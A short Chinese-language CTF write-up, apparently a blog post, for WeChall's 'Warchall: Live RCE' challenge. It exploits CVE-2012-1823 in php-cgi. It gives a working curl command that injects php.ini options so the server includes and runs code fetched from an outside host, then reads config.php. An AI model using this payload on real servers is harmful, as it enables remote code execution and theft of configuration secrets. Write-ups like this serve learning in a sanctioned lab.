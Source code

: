 ```yaml
---
title: 'Warchall: Live RCE'
author: rk700
layout: post
tags:
  - PHP
  - wechall
---
```

<http://www.wechall.net/challenge/warchall/live_rce/index.php>  
这道题开始试了半天，发现没有注入什么的……然后在网上搜php rce，发现了有这个问题：CVE-2012-1823

根据解释，如果query string中不包含未urlencoded的等号，那么整个query会以空格分词，传给php-cgi。于是我们传-s，就会把php文件源码回显。试了`http://rce.warchall.net/?-s`，发现确实存在这个问题

然后我们就可以远程执行代码了  
{% highlight bash %}
$ curl http://rce.warchall.net/?-dallow_url_include%3dOn+-dauto_prepend_file%3dhttp%3a%2f%2fnabla.users.warchall.net%2f1+-n
{% endhighlight %}
这里会重写php.ini，使`http://nabla.users.warchall.net/1`被包含，于是类似于rfi。最后发现答案在文件`../config.php`中